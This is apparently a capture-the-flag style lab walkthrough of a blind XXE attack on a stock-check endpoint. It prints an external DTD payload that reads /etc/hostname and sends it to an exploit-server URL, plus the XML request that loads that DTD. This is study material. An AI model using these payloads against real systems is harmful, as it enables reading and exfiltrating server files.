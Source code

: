 
1. Access the lab and verify the stock.
2. You can use the exploit server url to resolve the lab;
3. Insert the following payload inside the exploit server

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://exploit-0ab4006203b230f081639732012300d7.exploit-server.net/exploit/?x=%file;'>">
%eval;
%exfil;
```
4. Insert the following XML inside the request

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM " https://exploit-0ab4006203b230f081639732012300d7.exploit-server.net/exploit"> %xxe;]>
<stockCheck><productId>4</productId><storeId>1</storeId></stockCheck>
```


5. Copy the value of `x?=`
![](/static/img/Pasted_image_20231113185210.png)
